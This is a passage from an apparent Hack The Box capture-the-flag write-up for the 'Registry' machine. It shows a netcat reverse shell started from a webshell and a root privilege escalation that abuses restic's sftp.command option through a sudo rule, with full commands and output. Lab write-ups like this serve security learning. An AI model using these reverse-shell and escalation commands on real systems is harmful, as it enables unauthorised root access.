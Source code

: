 ![](/assets/images/htb-writeup-registry/Screenshot_4.png)

I tried to get a reverse shell but I couldn't so I assume there is a firewall blocking outbound connection. No matter, there is netcat already on the box so I can start a local listener as user `bolt` and proceed from there. I created a `/tmp/shell.sh` that contains a standard reverse shell using netcat and called it from my webshell. 


```
bolt@bolt:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 127.0.0.1 60286 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege escalation

More sudo privileges! This is probably the way to get root access. I need to abuse the restic backup system to get RCE as root.

```
$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:[...]

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

## Unintended method

We can pass special parameters to the restic backup application to specify how we want to establish the SSH connection for remote backups. By abusing this parameter we can effectively run any command we want as root. In this case I'll just call another reverse shell back to me and gain root access.

`sudo /usr/bin/restic backup -r rest/ -r sftp:bolt@127.0.0.1:/var/tmp/xyz -o sftp.command="/tmp/shell.sh" /root/root.txt`

